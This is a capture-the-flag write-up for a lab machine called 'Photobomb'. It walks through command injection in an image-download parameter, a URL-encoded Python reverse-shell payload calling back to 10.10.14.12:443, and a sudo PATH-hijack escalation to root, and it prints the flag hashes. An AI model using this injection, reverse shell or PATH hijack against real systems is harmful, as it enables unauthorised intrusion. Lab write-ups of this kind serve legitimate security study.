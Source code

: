 # Photobomb
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's check all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187399-28b9242d-ad0b-4fb0-a255-eb0e7fe46ab4.png)


2. Based from the output, it seems the machine is running a web application.
3. So let's open the webapp.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187862-a8c8ee89-b456-4a0f-b1e8-43125353176c.png)


4. Let's click this:

![image](https://user-images.githubusercontent.com/70703371/211187884-27fe79c0-97d4-49d5-a55e-2db4a2b69d93.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187889-bde4bf7a-a15d-48ae-b340-7de1102c675f.png)


5. Well we don't have any creds, let's check the page source.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187961-98e9ad44-061e-4e4a-8178-48a0d3539c74.png)


6. Let's check the `.js` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187975-b432a7ef-7a85-4c03-b159-f511c4b6ec43.png)


![image](https://user-images.githubusercontent.com/70703371/211187993-b6eb2ef8-7633-4800-b00e-3154f28bb366.png)



7. Got a hint there, open the link then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188002-03f41d74-a975-4068-b9de-a3ac4f030445.png)


![image](https://user-images.githubusercontent.com/70703371/211188016-93639302-051f-45b5-a030-7d96ee78947e.png)


8. It seems we can download any image we click here.

![image](https://user-images.githubusercontent.com/70703371/211188145-a76d347c-4916-4e46-8bbb-cf96c3c260ea.png)


9. Hence, let's see the download request using burpsuite and send it to repeater.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188308-051c41d0-21c5-47e5-bb41-52437ead0a37.png)


10. To check whether it's vulnerable to command injection, let's add `;id` behind the value of filetype parameter.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188356-5eefb301-754f-4bc2-8dd4-e80620f0bf76.png)


![image](https://user-images.githubusercontent.com/70703371/211241745-356fd100-fcb1-4ea2-891d-f6f6d8c43e81.png)


11. Now let's try to inject command for reverse shell. I used this command from `hacktools`.

```
python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.12%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)'
```

12. Now set a listeners for port 443. Then paste the payload behind the `jpg;`, next click send.

![image](https://user-images.githubusercontent.com/70703371/211243510-3cb7e988-161f-4f81-8184-24d7d9842058.png)


![image](https://user-images.githubusercontent.com/70703371/211243792-e296f709-2bd1-4743-881d-213ad1ec7305.png)


![image](https://user-images.githubusercontent.com/70703371/211244032-3223424d-4582-450a-ad40-524540bad572.png)


13. Now press `ctrl-d`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244049-24cc8e99-cc1c-4404-bccf-8f42ea07a278.png)


14. Let's find all the flags!


![image](https://user-images.githubusercontent.com/70703371/211244076-a9c1028b-ae19-4ad9-a1ac-b8dc7b34db11.png)


![image](https://user-images.githubusercontent.com/70703371/211244143-9a6c5ae9-9237-4c8f-9811-b55915f99cba.png)


15. Got the user flag!

## USER FLAG


```
e89b54a9041e03ea2ea5148f38d1413d
```

16. Then go for the root now.

![image](https://user-images.githubusercontent.com/70703371/211244239-4fe105cb-6da1-4f5d-bb8e-eb29d0ca6cfa.png)


17. Since we're not root, gotta find a way.
18. Find a bash script at the `opt` directory.

![image](https://user-images.githubusercontent.com/70703371/211244351-2be543e5-599f-4d60-a6c8-4e94345b2a22.png)


19. Actually i'm stucked here, so i did a small outsource about this challenge and found out that we have to run this command in order to get the root mode:

```
sudo -l # check our available command
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244753-c2b12678-a38d-4095-814d-7233d2824785.png)


![image](https://user-images.githubusercontent.com/70703371/211275027-a030bb8e-fe63-423f-8feb-fcf6428107a2.png)


![image](https://user-images.githubusercontent.com/70703371/211275088-aa48c39a-5569-4527-a8a7-5f36333ccd54.png)


20. Got the root flag!


## ROOT FLAG

```
09472dbb86cfe57789293cef8965aa07
```




